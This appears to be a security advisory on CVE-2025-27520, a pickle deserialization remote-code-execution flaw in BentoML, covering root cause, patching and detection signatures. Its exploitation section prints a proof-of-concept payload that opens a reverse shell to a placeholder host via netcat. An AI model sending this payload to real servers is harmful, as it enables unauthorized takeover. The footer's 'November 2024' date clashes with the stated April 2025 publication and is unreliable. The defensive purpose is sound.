

# CVE-2025-27520 - BentoML Remote Code Execution Vulnerability

## 📋 Executive Summary

**CVE-2025-27520** is a critical remote code execution vulnerability in BentoML, a Python library for building AI application serving systems. This vulnerability allows unauthenticated attackers to execute arbitrary code on vulnerable servers through insecure deserialization of malicious pickle payloads, posing severe risks to AI inference deployments and sensitive model data.

---

## 🚨 Quick Facts

| Metric | Details |
|--------|---------|
| **CVE ID** | CVE-2025-27520 |
| **CVSS Score** | 9.8 (Critical) (CNA/GitHub,Inc.) |
| **Vulnerability Type** | Insecure Deserialization (CWE-502) |
| **Attack Vector** | Network |
| **User Interaction** | None |
| **Affected Product** | BentoML AI Serving Framework |
| **Affected Versions** | 1.3.8 through 1.4.2 |
| **Patched Version** | 1.4.3 |
| **Publication Date** | April 4, 2025 |
| **Exploit Availability** | Public Proof-of-Concepts Available |

---

## 🔍 Technical Details

### Vulnerability Overview

CVE-2025-27520 is a critical **insecure deserialization vulnerability** in BentoML's data processing pipeline that enables unauthenticated remote code execution. The vulnerability exists in the `serde.py` file where user-controlled data is unsafely deserialized using Python's `pickle` module without proper validation .

### Attack Mechanism



### Technical Root Cause

The vulnerability stems from unsafe code in the `deserialize_value` function within `serde.py` :

```python
def deserialize_value(self, payload: Payload) -> t.Any:
    if "buffer-lengths" not in payload.metadata:
        return pickle.loads(b"".join(payload.data))
```

**Key Issues**:
- **Unsafe Deserialization**: Direct use of `pickle.loads()` on user-controlled data 
- **Missing Authentication**: Endpoints accessible without authentication 
- **No Input Validation**: Lack of proper validation for serialized data 
- **Regression Vulnerability**: This vulnerability is a reintroduction of CVE-2024-2912, which had been previously fixed in version 1.2.5 but was accidentally removed in version 1.3.8 

### Exploitation Techniques

#### Malicious Payload Construction
Attackers exploit the vulnerability by crafting Python objects that override the `__reduce__` method to execute system commands during deserialization :

```python
import pickle
import os
import requests

headers = {'Content-Type': 'application/vnd.bentoml+pickle'}

class Evil:
    def __reduce__(self):
        return(os.system, ('nc attacker.com 1234 -e /bin/sh',))

payload = pickle.dumps(Evil())
response = requests.post("http://target:3000/summarize", data=payload, headers=headers)
```

#### Trigger Conditions
- **Content-Type Header**: Must be set to `application/vnd.bentoml+pickle` 
- **Metadata Bypass**: Ensure `"buffer-lengths"` is not present in payload metadata 
- **Endpoint Access**: Any valid BentoML API endpoint can be targeted 

---

## 📊 Impact Assessment

### Potential Consequences

| Impact Category | Level | Description |
|----------------|-------|-------------|
| **Confidentiality** | 🔴 High | Complete system access and data exfiltration  |
| **Integrity** | 🔴 High | Unauthorized data modification and system compromise  |
| **Availability** | 🔴 High | Service disruption and denial of service  |

### Real-World Exploitation Risks

- **Complete System Compromise**: Attackers gain full control over affected servers 
- **AI Model Theft**: Exfiltration of proprietary machine learning models 
- **Data Breach**: Access to sensitive inference data and training information 
- **Malware Installation**: Deployment of persistent backdoors and crypto-miners 
- **Supply Chain Attacks**: Compromise of AI services serving multiple clients 

### CVSS 3.1 Vector Breakdown

- **Attack Vector (AV)**: Network - Exploitable remotely over the network 
- **Attack Complexity (AC)**: Low - No specialized conditions required 
- **Privileges Required (PR)**: None - No authentication needed 
- **User Interaction (UI)**: None - Zero-click exploitation 
- **Scope (S)**: Unchanged - Affects only the vulnerable component 

---

## 🛡️ Mitigation & Response

### Immediate Actions

#### 🔧 Patch Implementation
```bash
# Upgrade to patched version
pip install --upgrade bentoml>=1.4.3

# Verify installation
pip show bentoml
```

#### 🚨 Emergency Workarounds
- **Network Segmentation**: Immediately restrict network access to BentoML instances 
- **WAF Configuration**: Block requests containing `application/vnd.bentoml+pickle` Content-Type 
- **Input Validation**: Implement strict validation for all API endpoints 

### Patch Analysis

The vulnerability is fixed in version 1.4.3 through commit `b35f4f4f` , which implements:

- **Content-Type Validation**: Proper validation of request content types 
- **Safe Deserialization**: Removal of unsafe `pickle.loads` usage 
- **Input Sanitization**: Enhanced input validation mechanisms 

### Security Hardening Recommendations

#### Runtime Protection
- **Python Sandboxing**: Implement runtime protection for deserialization operations 
- **Process Monitoring**: Deploy security monitoring for unusual process execution 
- **File Integrity Monitoring**: Detect unauthorized changes to critical files 

#### Network Security
- **Egress Filtering**: Restrict outbound connections from AI serving instances 
- **API Gateway Protection**: Deploy API security gateways with payload inspection 
- **Access Controls**: Implement network-level authentication requirements 

---

## 🔍 Detection & Monitoring

### Indicators of Compromise

#### 🚨 Suspicious Activity Patterns
- Unexpected processes spawned from BentoML Python processes 
- Outbound network connections to unknown destinations 
- Unusual system command execution from application context 
- Modified or new files in BentoML deployment directories 

#### 🔍 Detection Signatures

**Suricata Network Detection** :
```yaml
alert http any any -> $HOME_NET any (
    msg:"BentoML RCE Exploit Attempt";
    flow:to_server;
    http.method; content:"POST";
    http.header; content:"application/vnd.bentoml+pickle";
    threshold:type limit, track by_src, count 1, seconds 60;
    reference:cve,2025-27520;
)
```

**YARA Rule for Malicious Pickles** :
```yaml
rule bentoml_rce_pickle_detection {
    meta:
        description = "Detects pickle payloads for BentoML RCE"
    strings:
        $reduce = "__reduce__"
        $os_system = "os.system"
        $subprocess = "subprocess"
    condition:
        any of them and filesize < 512KB
}
```

### Security Monitoring Recommendations

- **Application Logging**: Enhanced logging for all deserialization operations 
- **Process Auditing**: Monitor child process creation from BentoML services 
- **Network Monitoring**: Detect unusual outbound connections from AI serving instances 
- **Performance Metrics**: Alert on abnormal request processing patterns 

---

## 📈 Exploitation Status

### Current Threat Landscape

| Aspect | Status |
|--------|---------|
| **Proof of Concept** | Publicly Available  |
| **Exploit Maturity** | Functional Exploit Code  |
| **EPSS Score** | 70.29% (99th Percentile)  |
| **Patch Availability** | Yes (Version 1.4.3)  |

### Attack Complexity Assessment

- **Technical Difficulty**: Low - Public exploits and clear documentation available 
- **Reliability**: High - Consistent exploitation with crafted payloads 
- **Detection Evasion**: Medium - Requires specific network monitoring for detection 

---

## 🔮 Lessons Learned & Best Practices

### AI Security Considerations

#### Secure Development Practices
- **Zero Trust for Deserialization**: Never deserialize untrusted data without strict validation 
- **Input Validation**: Implement comprehensive input validation for all API endpoints 
- **Safe Alternatives**: Use JSON or other safe serialization formats instead of pickle 
- **Security Testing**: Include deserialization attacks in security assessment scope 

#### Organizational Security Measures
- **Dependency Management**: Implement rigorous security reviews for AI framework updates 
- **Patch Management**: Establish rapid update procedures for critical vulnerabilities 
- **Security Training**: Educate developers on secure deserialization practices 
- **Incident Response**: Prepare procedures for AI system compromises 

### Future Prevention Strategies

- **Code Auditing**: Regular security reviews of data processing components 
- **Regression Testing**: Ensure security fixes persist across version updates 
- **Defense in Depth**: Multiple security layers for AI serving components 
- **Vendor Security**: Establish security requirements for AI framework providers 

---

## 📚 References & Resources

### Official Advisories
1. [GitHub Security Advisory - GHSA-33xw-247w-6hmc](https://github.com/bentoml/BentoML/security/advisories/GHSA-33xw-247w-6hmc) 
2. [NVD CVE-2025-27520 Detail](https://nvd.nist.gov/vuln/detail/CVE-2025-27520) 
3. [CVE Details - CVE-2025-27520](https://www.cvedetails.com/cve/CVE-2025-27520/) 

### Technical Analysis
1. [Checkmarx Zero Research - Version Analysis](https://checkmarx.com/zero-post/bentoml-rce-fewer-affected-versions-cve-2025-27520/) 
2. [Snyk Vulnerability Database](https://security.snyk.io/vuln/SNYK-PYTHON-BENTOML-9667321) 
3. [BlueRock Threat Research](https://www.bluerock.io/threat-research/cve-2025-27520-critical-bentoml-flaw-allows-full-remote-code-execution-exploit-available-BDMP8-fbf70) 

### Protection Resources
- [Centre for Cybersecurity Belgium Advisory](https://ccb.belgium.be/advisories/warning-critical-remote-code-execution-bentoml-poc-available-patch-immediately) 
- [MITRE ATT&CK Framework - T1203](https://attack.mitre.org/techniques/T1203/) 
- [OWASP Deserialization Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html)

---

## ⚠️ Disclaimer

This document is provided for informational and educational purposes only. The vulnerability has been addressed in BentoML version 1.4.3 and later. Organizations should conduct their own risk assessment and testing before implementing any security measures. Always refer to official security advisories for the most current information.

---

<div align="center">

**Last Updated**: November 2024  
**Status**: ✅ **Patched in version 1.4.3**  

</div>
